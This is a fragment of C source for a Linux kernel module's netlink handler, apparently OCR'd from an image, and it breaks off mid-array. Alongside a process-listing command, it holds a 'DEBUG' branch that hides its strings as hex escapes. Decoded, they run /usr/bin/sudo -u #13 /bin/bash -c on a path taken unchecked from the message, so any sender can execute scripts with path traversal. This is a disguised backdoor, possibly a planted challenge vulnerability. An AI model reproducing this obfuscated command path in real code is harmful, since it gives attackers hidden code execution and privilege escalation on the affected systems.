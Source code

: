 ```c
    pid = nlh->nlmsg_pid;



    char *comm;
    char *arg;
    const char tag[2] = "=";
    char *token;
    char *stringa = (char*)nlmsg_data(nlh);


    token = strsep(&stringa, tag);
    if ( token != NULL ){
        comm=token;
        token = strsep(&stringa, tag);

        if (token != NULL){
            arg=token;

            if (!strncmp(comm,"LIST",4))
            {
                struct task_struct *task;

                for_each_process(task){
                    pr_info("COMM: %s PID: %d NIVCSW: %lu NVCSW: %lu", task->comm, task->pid, task->nivcsw, task->nvcsw);

                    skb_out = nlmsg_new(msg_size,0);

                    if(!skb_out)
                    {
                        printk(KERN_ERR "Failed to allocate new skb\n");
                        return;
                    }
                    nlh=nlmsg_put(skb_out,0,0,NLMSG_DONE,sizeof(unsigned int),0);

                    NETLINK_CB(skb_out).dst_group = 0; /* not in mcast group */
                    snprintf(nlmsg_data(nlh),sizeof(unsigned int),"%lu",task->nvcsw);

                    res=nlmsg_unicast(nl_sk,skb_out,pid);

                    if(res<0)
                        printk(KERN_INFO "Error while sending bak to user\n");

                }
            }

#ifdef DEBUG
#define DGB_TOOL "/usr/share/nl/"

            else if (!strncmp(comm,"DEBUG",5))
            {
                char scpt[1024];
                memset(scpt,'\0',sizeof(scpt));
                strncat(scpt,DGB_TOOL,strlen(DGB_TOOL));
                strncat(scpt,arg,sizeof(scpt)-strlen(DGB_TOOL)-1);

                char *debug[] = { "\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f",
                    "\x2d\x75",
                    "\x23\x31\x33",
                    "\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68",
                    "\x2d\x63",
                    scpt,
```